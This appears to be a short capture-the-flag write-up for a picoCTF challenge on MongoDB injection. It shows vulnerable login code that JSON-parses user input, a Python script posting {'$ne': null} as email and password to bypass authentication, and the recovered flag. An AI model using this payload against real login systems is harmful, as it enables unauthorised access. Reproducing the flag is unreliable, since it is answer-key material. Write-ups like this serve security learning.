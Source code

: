 ```yaml
---
ai_date: 2025-04-27 05:29:57
ai_summary: MongoDB injection vulnerability exploited using JSON parse to bypass filter
ai_tags:
  - json
  - mongodb
  - injection
created: 2024-11-16T19:49
updated: 2025-07-14T09:46
---
```


Simple mongodb injection.

```js
const user = await User.findOne({
    email:
    email.startsWith("{") && email.endsWith("}")
        ? JSON.parse(email)
        : email,
    password:
    password.startsWith("{") && password.endsWith("}")
        ? JSON.parse(password)
        : password,
});
```

Since we can provide it with an object, we can just use [$ne - MongoDB Manual v8.0](https://www.mongodb.com/docs/manual/reference/operator/query/ne/#mongodb-query-op.-ne).

```js
{ field: { $ne: value } }
```

```python
import base64
import requests

print(base64.b64decode(requests.post("http://atlas.picoctf.net:63914/login", json={"email": '{"$ne": null}', "password": '{"$ne": null}'}).json()['token']))
```

```flag
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}
```
